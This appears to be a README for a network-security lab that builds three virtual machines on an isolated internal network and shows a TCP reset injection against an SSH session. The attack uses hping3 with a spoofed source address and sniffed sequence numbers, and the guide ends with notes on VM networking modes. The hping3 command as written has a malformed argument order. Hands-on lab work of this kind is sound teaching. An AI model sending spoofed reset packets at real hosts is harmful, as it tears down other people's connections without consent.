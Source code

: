 # Setup
	1) setup virtual machines
		1) add 3 machines, ssh_from, ssh_to, and a MIM machine (man in the middle)
		2) add all machine to internal network.
		3) Before changing to internal network. Make sure to download all the packages with NAT in network settings.
		4) ssh machines should have wireshark and net-tools installed, and ssh as well
			1) sudo apt install ssh
			2) sudo sytemctl enable ssh
			3) sudo systemctl start ssh
		5) attack machine needs hping3 installed
	2) Setting up network
		1) all need to be in internal network
		2) then go to /etc/netplan/01-network-manager-all and edit it to look like this. This creates a static ip address

```C
network:
  version: 2
  ethernets:
    enp0s3:
      dhcp4: no
      addresses:
        - 192.168.2.3/24 //use different ip for each machine.
      gateway4: 192.168.2.1
```
	3) After setting the static ip addersses run 'sudo netplan apply' to apply the changes
	4) Also at this stage make sure network adapter is set to internal network.
	5) try pinging all the ip addresse you set from a machine to check if everything is working
		1) ping 192.168.2.(2 - 4)


`ip a` to view the network settings
## SSH from Alice to Bob
	`ssh username@ipaddress` 
	- Now you have established a TCP connection from machine a to machine b.
	- Use wireshark to see the captured packets and there sequence numbers.
	- Note down the latest sequence numbers.
```C
#sudo hping3 -c 1 -V -S -p <TARGET_PORT> -a <SOURCE_IP> --rst <DEST_IP>
sudo hping3 -R -p 22 -a --seqnum <NUM> <server_ip> <client_ip>
````

## Network options in virtual machine
### NAT (Network address translation)
	VM shares the ip address of the host and access internet as a local client behind NAT. VM is not directly exposed to the internet.
### Bridget Networking
	VM gets a separate ip addresss than the host from the same DHCP server. VM is directly addressible from outside the host, making it exposed. 
	VM appears as another physical device that can commnunicate between other devices on the internet.
### Host-only Network
	VM gets a private ip that only host and other VM's can access. VM is not exposed to internet or outside the host.
### Internal Network
	VM can only communicate between other VM's on the host. Host can't communicate with VM.
